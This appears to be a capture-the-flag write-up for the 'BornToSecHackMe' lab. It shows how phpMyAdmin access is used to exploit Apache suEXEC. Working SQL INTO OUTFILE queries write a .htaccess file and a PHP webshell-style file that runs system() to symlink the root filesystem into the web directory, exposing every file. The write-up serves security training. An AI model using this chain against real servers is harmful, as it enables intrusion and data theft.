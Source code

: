 # Apache suEXEC

After gaining access to phpMyAdmin, we can [exploit suEXEC](https://www.exploit-db.com/exploits/27397) by creating a .htaccess file in the /var/www/forum/templates_c directory to access the / folder via a symlink.

To write files, we will use the same exploit as in the previous task in phpMyAdmin.

## Step 1: Create a .htaccess file

Create a .htaccess file in the /var/www/forum/templates_c directory with the following content:

```shell
Options Indexes FollowSymLinks
```
The Indexes directive allows us to view the contents of a directory if there is no index file present.

Use the following SQL query:
```sql
SELECT 'Options Indexes FollowSymLinks' INTO OUTFILE '/var/www/forum/templates_c/.htaccess';
```
## Step 2: Create a symlink

Create a symlink to the / directory using the following SQL query:

```sql
SELECT '<?php system("ln -sf / /var/www/forum/templates_c/symlink.php"); ?>' INTO OUTFILE '/var/www/forum/templates_c/make_symlink.php';
```

After executing the query, we need to execute the PHP, so we're going to the following URL in the browser: `https://BornToSecHackMe/forum/templates_c/make_symlink.php`.

## Step 3: Access the / directory

After executing the symlink, we can access the / directory by visiting the following URL in the browser:` https://BornToSecHackMe/forum/templates_c/symlink.php/`. This will display the contents of the / directory and allow us to access any file.
